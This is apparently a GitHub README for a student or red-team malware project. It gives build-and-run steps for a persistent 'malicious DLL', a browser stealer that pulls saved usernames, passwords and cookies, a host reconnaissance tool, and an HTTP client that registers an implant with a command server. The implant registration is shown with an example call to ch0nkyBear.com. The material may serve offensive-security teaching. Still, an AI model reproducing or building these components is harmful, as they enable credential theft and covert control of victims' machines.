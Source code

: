 # README

## To Compile the Malicious DLL

* Go to: reflectivedll> realDLL folder
* Run make to compile the DLL
* In the Command line, run .\testmDll.exe maliciousdll.dll

![image](https://user-images.githubusercontent.com/42654496/146640361-6be06d31-90d5-4da0-8365-c3cb9340e07a.png)

* The Malicious DLL currently checks for the Chonky.txt file and is Persistent.
* It does NOT currently include the communicationfuncs.cpp and .h files because it would cause errors

## To display Browser Information - Stealer Functionality

* Go to: reflectivedll> realDLL folder
* Run make and then make run

![image](https://user-images.githubusercontent.com/42654496/146636733-2d760b85-ad8d-410a-9b82-33b12e30980f.png)

* Steals Login Data(username and password) and Cookies from the system and displays to console

![image](https://user-images.githubusercontent.com/42654496/146641105-73da78e4-6505-46e2-bf7b-0c53f2a10fc5.png)

## To get Situational Awareness info

* Go to: reflectivedll> TestingFeatures> getInfo folder
* Run make to build the infoTest executable
* In the command line, run .\infoTest.exe 

* This executable will print out the data of the current machine
* It is currently not a feature of the dll

![Screenshot (1)](https://user-images.githubusercontent.com/55922639/146641491-fc20a650-e620-488f-ac2d-e776a55aa536.png)



## To make an HTTP Request to the Server

* Go to: reflectivedll> TestingFeatures > http folder
* Run make to build the http executable
* In the command line, run .\http.exe fqdn port uri useTLS payload payloadLength
* The payload should be a hex string that (before converted to hex), is in the format "guid=implantTest&username=TestUser&=computername=TestComputer\r\n"
* EX: .\http.exe ch0nkyBear.com 443 /register 1 "23478y9hfj874" 13

* Currently: Issues handling payloads on the server side
* testInfo.cpp is a file that includes example hex encoded payloads to try out

